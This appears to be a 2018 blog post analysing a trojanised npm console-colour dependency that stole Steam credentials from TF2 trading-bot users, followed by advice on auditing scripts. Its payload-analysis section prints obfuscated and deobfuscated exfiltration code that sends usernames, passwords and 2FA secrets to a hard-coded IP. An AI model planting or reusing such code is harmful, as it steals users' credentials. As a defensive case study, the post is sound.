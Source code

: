 ```yaml
---
title: "Code Auditing for Non-Programmers"
date: 2018-01-29T12:35:18Z
tags: ["misc"]
---
```


I can't believe this. Someone actually went and implemented the attack vector described in [an article posted earlier this month](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). **Tl;dr**: Malicious payload stored in an application dependency.

Around US$6,000 in TF2 items were stolen by a scammer who obtained Steam account credentials via a script they wrote. There was a window of over two weeks between release of the malicious script, and fraud being committed. This should have been avoided.

The scammer advertised his script on the backpack.tf forums, which immediately caused a bit of alarm based on what it would do: automatically overcut or undercut (i.e. list with the best price needed to always appear first) on our classifieds system. Generally, this behaviour is frowned upon because it is poor form. This user had previously been banned from several communities -- including this one -- for various reasons, and a bug in previous software he had written resulted in personal losses of thousands of dollars. In hindsight, it's clear he had a motive to do what was done, and inevitably capitalised on the laziness of his victims.

After harvesting enough user credentials, the scammer started to sign in to his victims' accounts to trade off entire inventory contents to various holding accounts. In one case, a victim's Marketplace.tf account was compromised via the Steam OpenID login (which could have been prevented by the victim, as Marketplace.tf has its own 2FA implementation). Their Marketplace.tf inventory contents were withdrawn, and a small cash payout was made to an anonymous email address.

It was when users became aware that their accounts had been hijacked that an investigation was begun. Victims were fast to conclude that they had all, at some point, ran this script. This prompted an audit of the source code. But the damage had already been done; the scammer had gone into hiding and did his best to cover his tracks.

Ultimately, the scammer's Steam accounts were all trade banned by Valve, so he did not receive much profit from dragging his reputation through the mud. However this does not mean the victims have been reimbursed, and they have had to learn a lesson or two about trusting scripts from strangers.

## Payload analysis

A thorough inspection of code in the repository showed no malicious functions; there were no dodgy HTTP requests or obfuscated `eval` bundles, and handled any credentials in a way that was obvious. Despite being poorly written, the software did what it was supposed to do. It was completely clean -- or was it? 

What was overlooked was a dependency -- a console color module with a malicious payload *just as described in the article*. This module was a line-for-line copy of the existing [better console](https://www.npmjs.com/package/better-console) module, except for when an info message is logged:

{{< highlight js >}}
  // Writes a message to the console with blue color
  info: function(){
    console.log.apply(this, arguments);		var a=['ZW1pdA==','bm9kZS1yc2E=','LS0tLS1CRUdJTiBSU...'
  }
{{< / highlight >}}

**NB**: This is massively truncated. The payload had a lot more whitespace to try and fool anyone not paying attention to the horizontal scrollbar.

Simply reformatting the one-liner revealed enough about what it did, without needing to run a deobfuscator.

{{< highlight js >}}
if (config != undefined) {
    var d = require('socket.io-client');
    var e = require(b('0x0'));
    var f = new e(b('0x1'));
    var g = JSON[b('0x2')](config);
    var h = f[b('0x3')](g, b('0x4'));
    try {
        var i = d['connect']('http://45.56.74.164:8080');
    } catch (j) {
    }
    i['on'](b('0x5'), () => {});
    i[b('0x6')]('chat\x20message', h);
    setTimeout(function () {
        i['disconnect']();
    }, 0x7d0);
}
{{< / highlight >}}

This snippet:

* Opens a websocket connection to the scammer's remote web server
* Sends the JSON-encoded contents of a global `config` variable, which contains the user's credentials -- Steam username, password, and two-factor authentication secrets (fwiw, Steam's 2FA is practically snake oil)
* Closes the connection after two seconds

He could have just left it deobfuscated and he would have still succeeded. It does not matter. It was hidden well enough that nobody bothered to look for it.

## Conclusions

I have a huge concern for users who are using arbitrarily-sourced scripts without knowing what they might do. The JavaScript ecosystem in particular is wonderful for hiding a payload in plain sight; a lackluster stdlib and the number of external dependencies that are needed to compensate for it, and applications that abuse variables available on the global scope. In this case, an exploit happened thanks to the inclusion of a simple vanity package that flew under the radar.

It's hard to educate users on how to make sure what they are using is legit. There is no guarantee that auto-updating software or its dependencies will stay clean. Saying "don't trust code ever" is just wrong, and users depending on someone else to tell them if software is legitimate or not is also wrong.

We should try to instruct users on how to audit the code they're about to run -- without necessarily teaching them to program.

## Identifying malicious code

First things first: Do you trust the person you're acquiring code from? At any point, despite originally releasing genuine software, they may subtly add a new, malicious feature. You're not going to check the source code after every update, are you?

Regardless, you should know how to identify malicious code without necessarily being able to read it, whether you are a programmer or not. These tips should help you identify suspect code in common scripting languages:

1. **Look for blatantly obfuscated code.** For some reason, malicious actors *love* to obfuscate their payloads when it's not necessary. I'm not sure why. If you see random strings of characters and anonymous variable names in the middle of otherwise nicely-written code, it should be pretty obvious there's something to hide.
  * **JavaScript**: Search for uses of `eval`. The use of `eval` is a sure sign that code is vulnerable to exploitation, intentionally or not. It is either bad code, or *bad* code. Used by attackers, this is used to pack and run malicious code. Used by novice programmers, this is used to write bots that answer maths questions and inevitably get hacked to death.
  * Do keep an eye on the horizontal scrollbar, or enable soft wrapping in your text editor to reveal hidden snippets.
  
2. **Look for shell command calls.** Like `eval`, *unnecessary* execution of shell commands may be bad or malicious. However, they may have a valid use case. Great care should be taken when using shell commands in code, as to not allow arbitrary execution of commands.
  * **JavaScript**: there are *many* ways to execute a shell command depending on the runtime environment, but you're probably running your scripts with Node.js. Look for `child_process` and see how this is being used.   
  * **Python**: look for usages of `os.system`, `os.popen` or the `subprocess` module. `os.*` calls should be given more attention; these commands are not cleaned and may be vulnerable to command injection if variable interpolation is used.
  * **Python**: if using Windows, also look for usages of the `win32api` module to see how this is being used.  
  
3. **Check the dependencies.** As witnessed, dependencies are a great way to hide malicious code. If you don't know what something is, take a look at it. Then scrutinise it as you would for the rest of the source code using the above steps.
  * **JavaScript**: Software written in JavaScript and various compile-to-JS languages often use the centralised npm repository. Dependencies are listed in the included `package.json` file, and package details can be checked at `https://www.npmjs.com/package/[package-name]`. If a package only has a few downloads, it should be examined thoroughly. **npm is largely unmoderated: anyone can submit a package, and anyone can pretend to be someone else**. It takes mere minutes to plagiarise someone else's package to make a copy with a similar name, so disregard any repository links, homepage links, or how pretty it looks.
  * When checking dependencies, disregard what code you see in the public repository. This won't necessarily be the same code you will download from a package manager for various reasons. **Inspect the code that was actually downloaded through the package manager.**
 
Ultimately, the number of people using a piece of software will correlate with the number of people closely inspecting it. Be careful of what you are running, especially if you are part of a niche community that does not necessarily have a wide developer scene.

Stay safe out there.